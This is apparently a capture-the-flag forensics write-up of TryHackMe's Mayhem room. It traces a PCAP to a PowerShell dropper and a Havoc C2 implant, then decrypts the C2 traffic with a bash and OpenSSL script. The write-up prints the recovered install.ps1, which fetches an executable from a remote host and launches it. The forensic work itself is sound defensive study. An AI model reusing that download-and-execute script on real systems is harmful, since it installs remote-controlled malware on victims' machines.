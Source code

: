 ```yaml
---
layout: default
title: Mayhem CTF Write-Up
---
```


# 🕵️‍♂️ Mayhem CTF Forensics Tryhackme

Ever cracked open a PCAP and uncovered a full-on malware operation hiding in plain sight? That’s exactly what this challenge was all about. From suspicious PowerShell scripts to sneaky HTTP traffic and full Havoc C2 decryption, this forensic journey had it all. I’ll walk you through how I broke it down — from protocol analysis to automating the entire decryption process with a bit of Bash magic. Let’s dive into the chaos of Mayhem.

![alt text](/Mayhem/image-12.png)


## 📘 Challenge Overview

**Room Link:** [Mayhem](https://tryhackme.com/room/mayhemroom)

> Beneath the tempest's roar, a quiet grace,
> Mayhem's beauty in a hidden place.
> Within the chaos, a paradox unfolds,
> A tale of beauty, in disorder it molds.

---

## 🔍 Initial Network Analysis

1. Opened the PCAP file in **Wireshark**.
![alt text](image.png)
2. Navigated to **Statistics → Protocol Hierarchy** to understand the traffic distribution.
![alt text](image-1.png)
3. Noticed a large amount of **HTTP traffic** — a potential channel for C2.

---

## 📦 Suspicious File Transfers

Following the most active HTTP streams revealed:

- Two files were transferred:
  - `install.ps1`
  - `notepad.exe`
![alt text](image-2.png)
The PowerShell script `install.ps1` initiated the download of `notepad.exe`.
![alt text](image-3.png)
Using **Follow HTTP Stream** in Wireshark:
- Confirmed the download behavior.
- Exported both files from the PCAP.
![alt text](image-4.png)
![alt text](image-6.png)
- Rewrited `Install.ps1`
    ```powershell
    $URL = "http://10.0.2.37:1337/notepad.exe";
    $Download_PATH = "C:\Users\paco\Downloads\notepad.exe";
    Invoke-WebRequest -Uri $URL -OutFile $Download_PATH;
    $downloader = New-Object System.Net.WebClient;
    $downloader.DownloadFile($URL, $Download_PATH);
    Start-Process -Filepath $Download_PATH
    ```
---

## 🔥 Malware Detection

After extraction:

- Generated the hash of `notepad.exe`.

    ![alt text](image-7.png)

- Checked the hash on a **Threat Intelligence Platform** (e.g., VirusTotal).

    ![alt text](image-8.png)

**Result:**  
The file was confirmed to be malicious — identified as a **Havoc C2**.

---

## 🧠 Research & C2 Decryption

Conducted research and found:

- An open-source **Havoc C2** repository on GitHub - [Havoc Implementation](https://github.com/HavocFramework/Havoc)
- Documentation explaining the encryption logic (AES-based) - [Havoc Forensics](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)
- A decryption script included in the repo - [Havoc C2 Forensics Github Tool](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics)

### Steps Taken:

- Studied how the decryption routine works.
- Extracted **AES keys** from the traffic the first request after notepad.exe
![alt text](magic_bytes-1.png)

    ```bash
    [+] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [+] IV: 8cd00c3e349290565aaa5a8c3aacd430
    ```

- Used **CyberChef** to manually decode the first 4 C2 packets.
    ![alt text](image-9.png)

### Observations:

- After few decryption of traffic, I noticed that each command from the attacker was followed by two responses:
  - An `HTTP/Response`
  - Two `HTTP/Request` packets
- Packets appeared **out of order**, requiring manual reassembly for accurate decryption.

---

## 🛠️ Automation via Bash Script

To automate and simplify the process:

- I Wrote a **Bash script** to:
  - Automatically extract AES keys
    ```bash
        # PCAP file to analyze
        PCAP="traffic.pcapng"

        # Function to parse HAVOC request header
        parse_header() {
        local hex="$1"

        # Extract fields based on byte sizes (in hex characters)
        length_field="${hex:0:8}"       # 4 bytes
        magic_byte="${hex:8:8}"         # 4 bytes
        agent_id="${hex:16:8}"          # 4 bytes
        ignore="${hex:24:16}"           # 8 bytes
        declare -g AES_KEY="${hex:40:64}"  # 32 bytes
        declare -g AES_IV="${hex:104:32}"  # 16 bytes

        length_dec=$((16#$length_field))

        if [[ "$magic_byte" == "deadbeef" ]]; then
            echo -e "\n✅ Magic bytes matched! - ${RED}Havoc has been detected${NC}\n"
            echo -e "  [-] Length Field : ${length_dec}"
            echo -e "${GREEN}  [-] Magic Bytes  : ${magic_byte}${NC}"
            echo -e "  [-] Agent ID     : ${agent_id}"
            echo -e "${RED}  [-] AES Key      : ${AES_KEY}"
            echo -e "  [-] AES IV       : ${AES_IV}${NC}"
        else
            echo "❌ Magic bytes mismatch (expected deadbeef, got $magic_byte)"
        fi
        }

    ```
  - Reassemble HTTP packet streams in correct order and map the reuqets with its answers and delete the empty packets.
    - the request content length != 20 and delete the 40 first bits
        ```bash
            echo "${REQUEST_1:40}" | xxd -r -p | decrypt
        ```
    - The response content length != 12 and delte the 24 first bits
        ```bash
            echo "${RESPONSE:24}" | xxd -r -p | decrypt
        ```
  - Decrypt payloads using embedded decryption logic (compatible with CyberChef or OpenSSL) 
    ```bash
    # Function to decrypt payloads using OpenSSL AES-256-CTR
    decrypt() {
    openssl enc -d -aes-256-ctr -K "$AES_KEY" -iv "$AES_IV" 2>/dev/null
    }
    ```

This enabled complete C2 traffic decryption.
    
![alt text](image-10.png)
![alt text](image-11.png)
---

## ✅ Outcome

Successfully:

- Identified malware deployment via `PowerShell`
- Detected and classified the payload as `Havoc C2`
- Decrypted the `command-and-control` traffic

---

## 🧰 Tools Used

- `Wireshark`
- `tshark`
- `CyberChef`
- `Bash`
- `VirusTotal`
- GitHub (Havoc C2 source)

---

## 📂 Artifacts

- `install.ps1`  - Sha1 hash: `2628320d154dff702ca2a4674af0432f6f08161a`
- `notepad.exe` (Havoc Payload)  - SHA1 Hash: `cdbab09ab27234cbd0739c438f4a96f6f7b53f50`
- Extracted AES Keys:
    - AES Key: `946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca`
    - IV Key: `8cd00c3e349290565aaa5a8c3aacd430`
- Decrypted C2 traffic  
- Bash automation script

---

## ✍️ Notes

- The decryption technique leveraged public information about Havoc’s encryption method.
- HTTP traffic order was inconsistent — proper stream ordering was key to successful decoding.

---

> 🏁 *Flag successfully retrieved through decrypted traffic.*
